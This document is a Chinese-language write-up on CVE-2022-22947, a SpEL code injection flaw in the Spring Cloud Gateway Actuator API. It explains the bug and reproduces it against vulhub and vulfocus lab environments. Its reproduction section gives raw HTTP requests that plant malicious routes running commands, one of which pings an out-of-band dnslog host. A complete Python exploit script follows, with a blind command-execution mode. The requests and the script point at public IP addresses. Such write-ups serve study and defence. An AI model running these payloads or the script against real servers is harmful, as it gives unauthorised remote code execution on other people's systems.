


## CVE-2022-22947 Spring Cloud Gateway Actuator API SpEL 代码注入

### 漏洞描述

SpringCloud Gateway 是 Spring Cloud 的一个全新项目，该项目是基于 Spring 5.0，Spring Boot 2.0 和 Project Reactor 等技术开发的网关，它旨在为微服务架构提供一种简单有效的统一的 API 路由管理方式。

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

> SpringCloud Gateway的更多介绍
> https://zhuanlan.zhihu.com/p/66844525

### 漏洞分析

#### 什么是SpEL

Spring表达式语言（简称SpEl）是一个支持查询和操作运行时对象导航图功能的强大的表达式语言. 它的语法类似于传统EL，但提供额外的功能，最出色的就是函数调用和简单字符串的模板函数。

在Spring 3中引入了Spring表达式语言（Spring Expression Language，简称SpEL），这是一种功能强大的表达式语言，支持在运行时查询和操作对象图，可以与基于XML和基于注解的Spring配置还有bean定义一起使用。

在Spring系列产品中，SpEL是表达式计算的基础，实现了与Spring生态系统所有产品无缝对接。Spring框架的核心功能之一就是通过依赖注入的方式来管理Bean之间的依赖关系，而SpEL可以方便快捷的对ApplicationContext中的Bean进行属性的装配和提取。由于它能够在运行时动态分配值，因此可以为我们节省大量Java代码。

SimpleEvaluationContext和StandardEvaluationContext是SpEL提供的两个EvaluationContext：

- SimpleEvaluationContext - 针对不需要SpEL语言语法的全部范围并且应该受到有意限制的表达式类别，公开SpEL语言特性和配置选项的子集。
- StandardEvaluationContext - 公开全套SpEL语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

以下是个人理解：SpEL就是spring官方定义的一种表达式，可以嵌入在代码中实现一些条件判断，逻辑运算，正则校验功能，相较于Java代码更加简洁灵活。SpEL有两种`EvaluationContext`，`SimpleEvaluationContext` 只能使用受限制的表达式；`StandardEvaluationContext`可以使用全部的表达式。而SpEL表达式还可以操作Java类及其方法，可以通过类类型表达式T(Type)来调用任意类方法。这是因为在不指定`EvaluationContext`的情况下默认采用的是`StandardEvaluationContext`，而它包含了SpEL的所有功能，在允许用户控制输入的情况下可以成功造成任意命令执行。

> 参考 [SpEL表达式注入漏洞总结](https://www.mi1k7ea.com/2020/01/10/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/)  

#### Spring Cloud Gateway工作原理

- `Route（路由）`：路由是网关的基本单元，由ID、URI、一组Predicate、一组Filter组成，根据Predicate进行匹配转发。
- `Predicate（谓语、断言）`：路由转发的判断条件，目前`SpringCloud Gateway`支持多种方式，常见如：`Path`、`Query`、`Method`、`Header`等。
- `Filter（过滤器）`：过滤器是路由转发请求时所经过的过滤逻辑，可用于修改请求、响应内容。

Spring Cloud Gateway根据不同的路由，可以对相应的请求进行转发，修改和过滤

路由的定义可以在代码中完成，也可以通过web的/actuator/gateway/routes接口删除和创建路由，路由配置的json数据如下

~~~json
[
  {
    "filters": [
      {
        "args": {
          "name": "hystrix",
          "fallbackUri": "forward:/hystrix"
        },
        "name": "Hystrix"
      },
      {
        "args": {},
        "name": "RateLimit"
      }
    ],
    "id": "DEMO_API_ROUTE",
    "order": 1,
    "predicates": [
      {
        "args": {
          "_genkey_0": "/demoApi/**"
        },
        "name": "Path"
      }
    ],
    "uri": "lb://demo-api"
  }
]
~~~

其实路由的定义就是RouteDefine对象的创建，根据json反序列化成一个对象即可

- id 路由配置的id名
- uri 跳转的地址，lb://表示基于服务注册的负载均衡
- order 路由的顺序，越小越先匹配
- predicates 断言列表，比如根据post并且path是什么开头，满足条件才转发
- filters 过滤器列表，匹配后需要做的一些操作，比如增加一个请求头字段

filter中传入valu的值 为#{ 开头同时 } 结尾，就会进入到 SPEL 解析的部分

gateway actuator相关代码没有对SpEL表达式执行的context做限制, 默认为StandardEvaluationContext，先创建路由，filter中写入恶意spel表达式，然后refresh执行，即可在服务器上执行spel表达式中的代码。

### 漏洞复现

环境 /vulhub/spring/CVE-2022-22947

通过接口创建路由

~~~
POST /actuator/gateway/routes/test1 HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 180

{
	"id": "test1",
	"filters": [{
		"name": "RewritePath",
		"args": {
			"replacement": "#{T(java.lang.Runtime).getRuntime().exec(\"ping d4eauu.dnslog.cn\")}"
		}
	}]
}
~~~

刷新使表达式执行

~~~
POST /actuator/gateway/refresh HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
~~~

命令执行回显payload，将回显结果放在header里面

~~~
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 333

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
~~~

刷新后，访问/actuator/gateway/routes/hacktest

删除恶意路由

~~~
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
~~~

-----

复现过程中遇到一个问题，执行POST /actuator/gateway/refresh 时，服务器会卡住，spring服务端会报`Connection closed before received headers`错误。我刚开始以为是环境的问题，先后换了vulhub和vulfocus环境都是如此。后来我发现，dockker环境启动后，先不要立即创建路由，稍等5分钟再进行复现就不会出现这个问题。原因未知。

> 参考
>
> https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.zh-cn.md
>
> https://y4er.com/post/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/

~~~python
# -*- coding: utf-8 -*-
# @Time    : 2022/3/4 15:16
# @Author  : LuckyFuture
# @FileName: CVE-2022-22947.py
# @Software: PyCharm
# @Blog : https://luckyfuture.top

import requests
import time
import json
import re
import sys

payload = '{"id":"%s","filters":[{"name":"AddResponseHeader","args":{"name":"Result","value":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\\"%s\\"}).getInputStream()))}"}}],"uri":"http://example.com"}'
payload2= '{"id":"%s","filters":[{"name":"RewritePath","args":{"replacement":"#{T(java.lang.Runtime).getRuntime().exec(\\"%s\\")}"}}]}'
headers1 = {
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Accept-Language': 'en',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
    'Content-Type': 'application/json'
}
headers2 = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded'
}
def setroutes(url,payload,evil):
    print("payload: "+payload)
    res =requests.post(url+"actuator/gateway/routes/"+evil, headers=headers1, data=payload)
    #print(res.headers)
    if (res.status_code==201):
        print("创建路由成功")
    else:
        print("创建路由失败，目标不存在漏洞")
        exit(1)

def refresh(url):

    res = requests.post(url+"actuator/gateway/refresh",headers=headers2)
    if (res.status_code==200):
        print("刷新成功")
        time.sleep(3)
    else:
        print("刷新失败")
        exit(1)
def check(url,evil):
    re3 = requests.get(url=url + "actuator/gateway/routes/"+evil, headers=headers2)
    s =re.findall(".*Result = '(.*?)']",re3.text)
    print(re3.status_code)
    if(len(s)<1):
        print(re3.text)
    else:
        print(s)

if __name__ == '__main__':

    url = "http://123.58.236.76:25001/"
    cmd = "uname -a"
    evil = "afa" #创建的路由名
    id = 1
    '''
    id = 1 验证模式，只能执行whoami，uname，id等命令，有回显
    id = 0 命令执行模式，可执行wget，ping等命令，无回显
    '''
    if id:
        print("验证模式")
        payload = payload % (evil, cmd)
        setroutes(url, payload, evil)
        refresh(url)
        check(url, evil)
    else:
        print("命令执行模式")
        payload2 = payload2 % (evil, cmd)
        setroutes(url, payload2, evil)
        refresh(url)
~~~

